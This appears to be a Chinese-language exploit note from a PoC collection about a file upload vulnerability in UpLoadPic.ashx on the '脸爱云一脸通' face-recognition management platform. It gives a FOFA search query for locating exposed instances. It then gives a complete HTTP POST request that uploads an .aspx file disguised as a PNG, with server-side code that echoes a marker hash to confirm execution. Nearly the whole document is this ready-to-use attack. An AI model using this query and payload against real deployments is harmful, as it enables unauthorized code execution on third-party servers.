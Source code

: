 ## 脸爱云一脸通智慧管理平台存在UpLoadPic.ashx文件上传漏洞

## fofa
```
body="View/UserReserved/UserReservedTest.aspx"
```

## poc
```
POST /UpLoadPic.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Length: 431
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywt7cEu1eBdibB13u
X-Requested-With: XMLHttpRequest

------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="action"

post
------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="myPhoto"; filename="1.aspx"
Content-Type: image/png

<% response.write("FC5E038D38A57032085441E7FE7010B0") %>

------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="oldName"


------WebKitFormBoundarywt7cEu1eBdibB13u--
```

![619efcae85a32a8fdae1b493ff2b8959](../../images/e9fd66c1-a64f-4f77-be49-cd53198aabe9.png)

